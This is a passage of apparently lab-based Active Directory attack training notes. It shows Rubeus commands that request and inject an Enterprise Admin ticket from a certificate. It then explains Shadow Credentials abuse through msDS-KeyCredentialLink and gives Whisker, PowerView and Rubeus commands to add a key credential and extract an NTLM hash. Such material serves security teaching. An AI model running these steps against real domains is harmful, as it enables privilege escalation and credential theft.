 Request EA TGT and inject it:

```
C:\AD\Tools\Rubeus.exe asktgt /user:techcorp.local\Administrator
/dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx
/password:SecretPass@123 /nowrap /ptt
```


#### Shadow Credentials

• Users and Computers have msDS-KeyCredentialLink attribute that
contains the raw public keys of certificate that can be used as an
alternate credential.

• This attribute is used when we configure Windows Hello for Business
(WHfB)

• By default, Key Admins and Enterprise Key Admins have rights to modify
the msDS-KeyCredentialLink attribute.

• User to User (U2U) Service Ticket can be requested to decrypt the
encrypted NTLM_SUPPLEMENTAL_CREDENTIAL entity from Privilege
Attribute Certificate (PAC) and extract NTLM hash.

• Pre-requisites to abuse Shadow Credentials:
- AD CS (Key Trust if AD CS is not present)
- Support for PKINIT and at least one DC with Windows Server 2016 or
above.

- Permissions (GenericWrite/GenericAll) to modify the msDS-
KeyCredentialLink attribute of the target object.


##### Abusing User Object

Enumerate the permissions.

```
Find-InterestingDomainAcl -ResolveGUIDs |
?{$_.IdentityReferenceName -match "StudentUsers"}
```

Add the Shadow Credential.

```
Whisker.exe add /target:supportXuser
```

Using PowerView, see if the Shadow Credential is added.

```
Get-DomainUser -Identity supportXuser
```

Request the TGT by leveraging the certificate.

```
Rubeus.exe asktgt /user:supportXuser
/certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCW....
/password:"1OT0qAom3..." /domain:us.techcorp.local
/dc:US-DC.us.techcorp.local /getcredentials /show
/nowrap
```
